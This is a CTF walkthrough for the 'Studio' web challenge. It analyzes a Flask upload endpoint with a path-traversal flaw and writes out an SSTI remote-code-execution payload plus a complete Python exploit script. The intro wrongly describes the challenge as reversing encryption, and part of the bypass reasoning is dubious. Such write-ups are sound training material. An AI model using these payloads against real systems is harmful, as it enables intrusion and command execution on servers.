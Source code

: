 # Studio - Flagyard CTF Walkthrough

This is a walkthrough for solving the **Studio** challenge from the **Flagyard CTF**. The challenge involves reversing a custom encryption process to retrieve the original input that satisfies the conditions.

## Challenge Description

What issues can arise with certain types of music?

```python
import os
from flask import Flask, render_template, request, redirect, url_for, flash, send_from_directory
from werkzeug.exceptions import RequestEntityTooLarge

app = Flask(__name__)
app.config['TEMPLATES_AUTO_RELOAD'] = True
app.config['UPLOAD_FOLDER'] = './music_files/'  # /app/music_files/
app.config['MAX_CONTENT_LENGTH'] = 1 * 1024 * 1024
app.config['SECRET_KEY'] = os.environ.get('SECRET_KEY') or '4cf129f6c1e7d7a7a96d944b78a935ac'

@app.route('/')
def home():
    page = request.args.get('page')
    try:
        return render_template('home.html', page=f'{page}.html')
    except:
        return render_template('home.html')

@app.route('/music')
def music():
    music_files = filter(lambda f: f.endswith('.mp3'), os.listdir(app.config['UPLOAD_FOLDER']))
    return render_template('music.html', music_files=music_files)

@app.route('/upload', methods=['POST'])
def upload():
    def safe_filename(file):
        if '../' in file:
            return safe_filename(file.replace('../', ''))
        return file
    try:
        music_file = request.files.get('music_file')
        dst_file = safe_filename(music_file.filename)
        if music_file and dst_file.split('.')[1] == 'mp3':
            flash('File uploaded')
            music_file.save(os.path.join(app.config['UPLOAD_FOLDER'], dst_file))
        else:
            flash('File blocked')
    except RequestEntityTooLarge:
        flash('File is too large')
    return redirect(url_for('music'))

@app.route('/download')
def download():
    music_file = request.args.get('music_file')
    if music_file:
        return send_from_directory(app.config['UPLOAD_FOLDER'], music_file, as_attachment=True)
    return redirect(url_for('home'))
```
We are provided with the server-side code of this web application. Let’s analyze the code to identify vulnerabilities and determine how to exploit them.

---

## /Route
```python
@app.route('/')
def home():
    page = request.args.get('page')
    try:
        return render_template('home.html', page=f'{page}.html')
    except:
        return render_template('home.html')
```
The / endpoint takes a page parameter from the URL and appends .html to it. If a file with that name exists in the templates folder, it renders that page. Otherwise, it defaults to rendering home.html. This behavior is key to exploiting the vulnerability, as we will see later.
---

## **/Music** Route

```python
@app.route('/music')
def music():
    music_files = filter(lambda f: f.endswith('.mp3'), os.listdir(app.config['UPLOAD_FOLDER']))
    return render_template('music.html', music_files=music_files)
```
The /music endpoint displays only files ending with .mp3 on the music.html page. It filters the list of files in the upload folder and passes only those with the .mp3 extension to the template.

---

## /upload Route
Now, let’s dive into the interesting part of the code.
```python
@app.route('/upload', methods=['POST'])
def upload():
    def safe_filename(file):
        if '../' in file:
            return safe_filename(file.replace('../', ''))
        return file
    try:
        music_file = request.files.get('music_file')
        dst_file = safe_filename(music_file.filename)
        if music_file and dst_file.split('.')[1] == 'mp3':
            flash('File uploaded')
            music_file.save(os.path.join(app.config['UPLOAD_FOLDER'], dst_file))
        else:
            flash('File blocked')
    except RequestEntityTooLarge:
        flash('File is too large')
    return redirect(url_for('music'))
```
The /upload endpoint handles the upload of a music_file provided by the user. The uploaded file's name is passed to the safe_filename() function to sanitize it.
```python
def safe_filename(file):
    if '../' in file:
        return safe_filename(file.replace('../', ''))
    return file
```
The safe_filename() function recursively checks for ../ in the filename and removes it if found. This aims to prevent directory traversal, but it's not effective. This can be bypassed using Unicode representations like \u002e\, which stands for ..

After sanitizing the filename, the code checks if the file extension is mp3. It does this by splitting the filename on the . character and checking whether the string after the first . is mp3. However, this method is flawed and can be bypassed with filenames like bypassed.mp3.php, where .mp3 is just a misleading part of the filename. This superficial check does not fully validate the actual file type.

If the file passes the extension check, the following line of code saves it:
```python
music_file.save(os.path.join(app.config['UPLOAD_FOLDER'], dst_file))
```
The os.path.join() function joins the upload folder with the filename, creating the final upload path. In this application, app.config['UPLOAD_FOLDER'] is set to ./music_files/, which means that if the sanitized filename is malicious.mp3, the final save path would be ./music_files/malicious.mp3.

However, the main vulnerability lies here: os.path.join() is susceptible to path traversal attacks because there is no validation to ensure that the final path remains within the intended music_files directory. For example, if a malicious filename like ../../evil.mp3 is provided and not sanitized adequately, it could allow the file to be saved outside of the intended folder, potentially overwriting critical files or saving in unauthorized locations.

In summary, the vulnerability arises due to incomplete sanitization and the lack of final path validation, making the endpoint susceptible to path traversal attacks. We can exploit this to save files in unintended directories, gaining unauthorized control over the file structure.

---

# Exploitation

To achieve Remote Code Execution (RCE) and retrieve the flag, one approach is to upload an HTML file to the templates directory (/app/templates) and achieve Server-Side Template Injection (SSTI) using it. Let’s begin the exploitation process.

There are two ways to solve this:

    Relative Path Method

    Absolute Path Method
### Relative Path Method

For the relative path method, we need ../ in our filename to reach the templates folder. However, since ../ is being filtered, we can bypass this restriction by using the Unicode representation for . (\u002e). Thus, our filename would be \u002e\u002e/templates/malicious.mp3.html, which is equivalent to ../templates/malicious.mp3.html. This allows us to navigate one directory back to where the templates folder is located, then move into the templates folder and save malicious.mp3.html there.

### Absolute Path Method

This method is simpler because we don’t need to bypass the ../ filter. We can simply provide the absolute path, which is /app/templates/malicious.mp3.html. The os.path.join() function will save it to the absolute path, effectively ignoring app.config['UPLOAD_FOLDER'] because an absolute path takes precedence over a relative path.

## SSTI Exploit

To exploit the SSTI vulnerability, we need a simple HTML file that can trigger SSTI when rendered. Below is a straightforward HTML file for this purpose:
```html
<html>
<head>
    <title>SSTI Exploit</title>
</head>
<body>
    <h1>Triggering SSTI</h1>
    <textarea type="text" id="page" name="page">{{7*7}}</textarea>
</body>
</html>
```
In this file, our SSTI payload is placed in the <textarea> element. This will evaluate the expression {{7*7}} if SSTI is present, allowing us to confirm that the vulnerability works.

The file is uploaded, but how do we access it? We can only see the output if malicious.mp3.html is rendered. This is where the following line of code comes in handy:
```python
render_template('home.html', page=f'{page}.html')
```
We can render our malicious.mp3.html by passing the page parameter like this:
```
http://your-instance-url/?page=malicious.mp3
```
This will render our HTML, and the result of 7*7 (which is 49) will be displayed in the <textarea> field, confirming that SSTI is successfully triggered.
---
## Final Payload for SSTI

Our final payload for SSTI will be:
```html
{{config.__class__.__init__.__globals__['os'].popen('ls -l /app').read()}}
```
This payload will achieve Remote Code Execution (RCE) using SSTI.

To execute this, simply replace the value and re-upload the file. Here is how the updated HTML file looks:
```html
<html>
<head>
    <title>SSTI Exploit</title>
</head>
<body>
    <h1>Triggering SSTI</h1>
    <textarea type="text" id="page" name="page">{{config.__class__.__init__.__globals__['os'].popen('ls -la').read()}}</textarea>
</body>
</html>
```
After uploading, access the payload by visiting:
```
http://your-instance-url/?page=malicious.mp3
```
This will render the updated HTML and execute the command, showing the output of ls -la in the <textarea> field, thus achieving RCE.
---
## Python Automated Script

I wrote a Python script to automate the entire process for retrieving the flag.
```python
import requests
import os
from urllib.parse import urlencode
from urllib.parse import urlparse
from bs4 import BeautifulSoup

url = "your-instance-url/"  # Add "/" at the end of the URL

def upload_file():
    parsed_url = urlparse(url)
    hostname = parsed_url.netloc

    headers = {
        'Host': hostname,
        'Content-Type': 'multipart/form-data; boundary=----WebKitFormBoundaryu1i8nw4tZ1Hi1EN7',
        'Connection': 'keep-alive',
    }

    data = '''------WebKitFormBoundaryu1i8nw4tZ1Hi1EN7\r\nContent-Disposition: form-data; name="music_file"; filename="/app/templates/malicious.mp3.html"\r\nContent-Type: text/html\r\n\r\n<html>
    <head>
        <title>SSTI Exploit</title>
    </head>
    <body>
        <h1>Triggering SSTI</h1>
        <form action="/" method="get">
            <input type="text" id="page" name="page" value="{{config.__class__.__init__.__globals__['os'].popen('cat $(find / -name flag.txt 2>/dev/null)').read()}}">
            <button type="submit">Submit</button>
        </form>
        <p id="output"></p>
    </body>
</html>\r\n------WebKitFormBoundaryu1i8nw4tZ1Hi1EN7--\r\n'''

    upload_url = f"{url}upload"
    response = requests.post(upload_url, headers=headers, data=data, verify=False)

    if "File uploaded" in response.text:
        print("[*] File uploaded successfully.")
    else:
        print("[*] Upload failed.")
        print(response.text)

def access_payload():
    access_url = f"{url}?page=malicious.mp3"
    response = requests.get(access_url)

    if response.status_code == 200:
        print("[*] Payload executed successfully.")

        soup = BeautifulSoup(response.text, 'html.parser')
        input_tag = soup.find('input', {'id': 'page'})

        if input_tag and input_tag.has_attr('value'):
            output = input_tag['value'].strip()

            if output:
                print(f"[*] Flag: {output}")
            else:
                print("Extracted value from input tag is empty.")
        else:
            print("Failed to locate the input element in the response.")
    else:
        print("Failed to execute payload.")

if __name__ == "__main__":
    upload_file()
    access_payload()
```
This script automates the process of uploading the malicious file, triggering the SSTI vulnerability, and retrieving the flag. Let me know if you need further assistance!
---
### Contact me: 

<a href="https://www.instagram.com/t2tt/" style="color: white; text-decoration: none;">
  <img src="https://upload.wikimedia.org/wikipedia/commons/9/95/Instagram_logo_2022.svg" alt="Instagram" width="30" />
</a>


